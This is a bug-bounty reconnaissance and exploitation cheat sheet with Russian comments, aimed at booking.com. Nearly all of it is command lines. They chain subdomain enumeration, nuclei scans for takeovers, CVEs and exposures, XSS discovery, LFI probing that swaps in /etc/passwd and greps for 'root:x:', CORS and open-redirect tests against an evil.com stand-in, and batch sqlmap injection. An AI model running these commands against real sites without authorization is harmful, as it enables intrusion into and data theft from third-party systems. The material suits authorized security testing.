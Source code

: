 🐛💵
* echo booking.com > target.txt
# найдет субдомены tool [subfinder](https://github.com/projectdiscovery/subfinder)
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые  tool [httpx](https://github.com/projectdiscovery/httpx)
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов tool [httpx](https://github.com/tomnomnom/waybackurls)
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
# template [fuzzing-templates](https://github.com/projectdiscovery/fuzzing-templates) 
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln template [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates) 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss 
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli 
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com


